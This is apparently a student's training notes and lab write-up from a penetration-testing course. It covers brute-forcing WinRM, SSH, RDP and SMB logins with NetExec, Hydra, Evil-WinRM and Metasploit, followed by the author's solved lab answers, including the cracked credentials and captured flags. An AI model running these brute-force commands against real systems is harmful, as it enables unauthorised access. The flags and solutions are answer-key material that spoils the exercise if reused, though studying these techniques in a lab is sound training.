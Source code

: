 ## WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (`WinRM`) is the Microsoft implementation of the [Web Services Management Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) (`WS-Management`). It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems.
By default, WinRM uses the TCP ports `5985` (`HTTP`) and `5986` (`HTTPS`).

A handy tool that we can use for our password attacks is [NetExec](https://github.com/Pennyw0rth/NetExec), which can also be used for other protocols such as SMB, LDAP, MSSQL, and others. We recommend reading the [official documentation](https://www.netexec.wiki/) for this tool to become familiar with it.

#### NetExec
#### NetExec Menu Options
```shell
netexec -h
```

#### NetExec Protocol-Specific Help
Note that we can specify a specific protocol and receive a more detailed help menu of all of the options available to us. NetExec currently supports remote authentication using NFS, FTP, SSH, WinRM, SMB, WMI, RDP, MSSQL, LDAP, and VNC.

```shell
netexec smb -h
```
#### NetExec Usage
The general format for using NetExec is as follows:

```shell
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
As an example, this is what attacking a WinRM endpoint might look like:

```shell-
netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM 10.129.42.197 5985  NONE [*] None (name:10.129.42.197) (domain:None)
WINRM 10.129.42.197 5985  NONE [*] http://10.129.42.197:5985/wsman
WINRM 10.129.42.197 5985  NONE [+] None\user:password (Pwn3d!)
```

The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

#### Evil-WinRM
#### Evil-WinRM Usage
```shell
evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell
evil-winrm -i 10.129.42.197 -u user -p password
```
If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.

## SSH
[Secure Shell](https://www.ssh.com/academy/ssh/protocol) (`SSH`) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on `TCP port 22` by default, to which we can connect using an SSH client. This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.

#### Symmetric Encryption
Symmetric encryption uses the `same key` for encryption and decryption.

#### Asymmetric Encryption
Asymmetric encryption uses `two keys`: a private key and a public key. The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key.

#### Hashing
The hashing method converts the transmitted data into another unique value. SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.


#### Hydra - SSH
```shell
hydra -L user.list -P password.list ssh://10.129.42.197
```


## Remote Desktop Protocol (RDP)
Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization.

#### Hydra - RDP
```shell
hydra -L user.list -P password.list rdp://10.129.42.197
```

#### xFreeRDP
```bash
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```


## SMB
[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks.

#### Hydra - SMB
```shell
hydra -L user.list -P password.list smb://10.129.42.197
```

#### Hydra - Error
```shell
[ERROR] invalid reply from target smb://10.129.42.197:445/
```
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

#### Metasploit Framework
Bruteforce SMB wiht metasploit:
```shell
msf6 > use auxiliary/scanner/smb/smb_login
```

Now we can use `NetExec` again to view the available shares and what privileges we have for them.

#### NetExec - Display Shares
```shell
netexec smb 10.129.42.197 -u "user" -p "password" --shares
```


#### Smbclient
```shell
smbclient -U user \\\\10.129.42.197\\SHARENAME
```


### Questions

Target: 10.129.202.136

1.  Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
2.  Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
3.  Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
4. Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.


```shell
1:
> netexec winrm 10.129.202.136 -u username.list -p password.list
[+] WINSRV\john:november

> evil-winrm -u "john" -p "november" -i "10.129.202.136"
flag: HTB{That5Novemb3r}


2:
> evil-winrm -u "john" -p "november" -i "10.129.202.136"
PS > ls C:\Users
Administrator
cassie
chris
dennis
jerome
john

Save this new list to a user file.(We can avoid putting john because we already have his password)

> netexec ssh 10.129.202.136 -u users.txt -p password.list
[+] dennis:rockstar 

> ssh dennis@10.129.202.136
HTB{Let5R0ck1t}


3:

> netexec rdp 10.129.202.136 -u users.txt -p password.list
[+] WINSRV\cassie:12345678910
[+] WINSRV\chris:789456123

(Cassie not working for some reason)
> xfreerdp /v:10.129.202.136 /u:chris /p:789456123 /cert:ignore /drive:share,/workspace/CPTS/tmp
Here we make sure to share a folder in order to transfer flag file since clipboard does not work as expected.
```

![[Pasted image 20250929182252.png]]


```shell
Flag: HTB{R3m0t3DeskIsw4yT00easy}

4:
Looking for smb shares for user cassie:
> netexec smb 10.129.202.136 -u cassie -p 12345678910 --shares
> smbclient -U cassie \\\\10.129.202.136\\CASSIE
SMB > get flag.txt
HTB{S4ndM4ndB33 
```